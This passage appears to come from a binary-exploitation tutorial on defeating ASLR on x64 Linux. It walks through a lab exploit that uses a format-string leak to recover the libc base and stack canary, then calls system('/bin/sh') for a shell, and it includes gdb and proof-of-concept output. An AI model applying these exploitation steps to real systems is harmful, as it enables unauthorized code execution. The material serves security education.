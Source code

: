 ```
0016| 0x7ffdc2a904c8 --> 0x7f6c34c75830 (<__libc_start_main+240>:	mov    edi,eax)
0024| 0x7ffdc2a904d0 --> 0x0 
0032| 0x7ffdc2a904d8 --> 0x7ffdc2a905a8 --> 0x7ffdc2a92109 ("./binaries/vuln_x64")
0040| 0x7ffdc2a904e0 --> 0x135244ca0 
0048| 0x7ffdc2a904e8 --> 0x400813 (<main>:	push   rbp)
0056| 0x7ffdc2a904f0 --> 0x0 
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
gdb-peda$ 
```

Remember what I introduced in the x64 exploitation crash course?  
The first function argument on x64 *needs* to be put in `RDI`.  
We managed to place our pointer to `/bin/sh` there.  
And that's all actually!  
Next `system()` is called with the contents of `RDI` as a function argument that gets us a shell.  

> Alternative PoC: vmmap reveals that our stack ends at 0x00007ffdc2a93000 the 62th value in the leak is within the stack frame (0x7ffdc2a905a0). We  could leverage this to call `mprotect()` on the stack to make him executable again too!

### PoC


https://asciinema.org/a/BaC2iCKPl4xSDSAjTvEO8QsNQ

```
$ cat /proc/sys/kernel/randomize_va_space
2

$ python defeat_ASLR_x64.py INFO         
[*] '/home/lab/Git/RE_binaries/0x00sec_WIP/ASLR/binaries/vuln_x64_3'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
[*] '/lib/x86_64-linux-gnu/libc-2.23.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './binaries/vuln_x64_3': pid 18749
[+] Format string leak:
 [1.7f6e0caee790.a.0.7f6e0cceb700.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.7ffd002e786c.7f6e0caecb78.7f6e0caee780.7f6e0cd17ca0.7f6e0caee780.1.0.7f6e0caed620.0.7f6e0caed620.7f6e0caed6a4.7f6e0caed6a3.7ffdd976dcf0.7f6e0c7a39e6.7f6e0caed620.0.0.7f6e0c7a0439.7f6e0caed620.7f6e0c797d94.0.87ec97b667e1eb00.]

[*] leaked position within libc is at 0x7f6e0caee790
[=>] That puts the libc base address at 0x7f6e0c728000
[+] system@libc has offset: 0x45390
[+] This puts the system call to 0x7f6e0c76d390
[+] /bin/sh located @ offset 0x18cd57
[+] This puts the shell to 0x7f6e0c8b4d57
[+] Canary value is: 0x87ec97b667e1eb00
[*] Switching to interactive mode
```